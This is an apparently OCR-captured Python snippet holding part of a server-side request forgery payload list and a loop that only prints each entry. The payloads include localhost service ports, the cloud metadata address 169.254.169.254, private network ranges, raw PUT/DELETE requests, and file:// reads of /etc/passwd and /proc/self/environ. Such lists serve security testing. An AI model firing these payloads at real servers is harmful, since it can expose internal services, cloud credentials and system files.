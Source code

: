 ```
    
    # Testing with invalid URLs
    "http://invalid-url",
    "http://256.256.256.256",
    "http://10.999.999.999",
    
    # Testing with different protocols
    "https://127.0.0.1",
    "http://[::1]",  # IPv6 localhost
    "http://[::ffff:127.0.0.1]",  # IPv6 mapped IPv4
    
    # Additional common services
    "http://127.0.0.1:9200",  # Elasticsearch
    "http://127.0.0.1:6379",  # Redis
    "http://127.0.0.1:3306",  # MySQL
    "http://127.0.0.1:5432",  # PostgreSQL
    "http://127.0.0.1:8081",  # Jenkins
    "http://127.0.0.1:5000",  # Flask app
    "http://127.0.0.1:8000",  # Django app
    
    # Testing with various internal services
    "http://127.0.0.1:3001/api/v1/data",
    "http://127.0.0.1:4000/api/v1/info",
    "http://127.0.0.1:5001/api/v1/execute",
    
    # Testing with different HTTP methods
    "PUT /api/v1/resource HTTP/1.1\r\nHost: 127.0.0.1\r\nContent-Length: 0\r\n\r\n",
    "DELETE /api/v1/resource HTTP/1.1\r\nHost: 127.0.0.1\r\nContent-Length: 0\r\n\r\n",
    
    # Testing with various payloads
    "http://127.0.0.1/api?url=http://example.com",
    "http://127.0.0.1/api?url=http://localhost",
    "http://127.0.0.1/api?url=http://192.168.1.1",
    "http://127.0.0.1/api?url=http://169.254.169.254",
    
    # Testing with file access
    "file:///etc/passwd",
    "file:///var/log/syslog",
    "file:///proc/self/environ",
    
    # Testing with local network addresses
    "http://192.168.1.100",
    "http://10.0.0.2",
    "http://172.16.0.5",
    
    # Testing with various protocols
    "ftp://127.0.0.1",
    "http://[::1]",  # IPv6 localhost
    "http://[::ffff:127.0.0.1]",  # IPv6 mapped IPv4
]

# things about life
for payload in ssrf_payloads:
    print(f"Testing payload: {payload}")
    # Here you would call your SSRF function with the payload

```
# And...
